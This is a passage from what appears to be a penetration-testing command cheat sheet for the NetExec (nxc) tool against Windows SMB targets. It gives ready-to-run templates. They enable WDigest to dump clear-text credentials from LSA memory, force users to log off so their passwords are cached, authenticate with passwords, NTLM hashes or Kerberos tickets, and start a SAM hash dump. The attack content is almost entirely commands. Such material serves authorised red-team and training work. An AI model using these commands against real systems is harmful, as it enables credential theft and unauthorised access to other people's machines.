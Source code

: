 enable/disable the WDigest provider and dump clear-text credentials from LSA memory.

```bash
nxc smb <rhost> -u <user|Administrator> -p '<password>' --local-auth --wdigest enable
```

## nxc - loggout user
#plateform/linux #target/remote #port/445 #port/139 #protocol/smb #warning/modify_target #cat/POSTEXPLOIT

Can be useful after enable wdigest to force user to reconnect

```bash
nxc smb <rhost> -u <user> -p '<password>' -x 'quser'
nxc smb <rhost> -u <user> -p '<password>' -x 'logoff <id_user>' --no-output
```

## nxc - local-auth
#plateform/linux #target/remote #port/445 #port/139 #protocol/smb #cat/ATTACK/CONNECT  

```bash
nxc smb <rhost> -u <user> -p <password> --local-auth
```

## nxc - local-auth with hash
#plateform/linux #target/remote #port/445 #port/139 #protocol/smb #cat/ATTACK/CONNECT 

```bash
nxc smb <rhost> -u <user> -H <hash> --local-auth
```

## nxc - domain auth
#plateform/linux #target/remote #port/445 #port/139 #protocol/smb #cat/ATTACK/CONNECT  

```bash
nxc smb <rhost> -u <user> -p <password> -d <domain>
```

## nxc - kerberos auth
#plateform/linux #target/remote #port/445 #port/139 #protocol/smb #cat/ATTACK/CONNECT 

Previously import ticket : 
export KRB5CCNAME=/tmp/ticket.ccache

```bash
nxc smb <rhost> --kerberos
```

## nxc - Dump SAM
#plateform/linux #target/remote #port/445 #port/139 #protocol/smb #cat/POSTEXPLOIT/CREDS_RECOVER

Dump SAM hashes using methods from secretsdump.py
You need at least local admin privilege on the remote target, use option --local-auth if your user is a local account
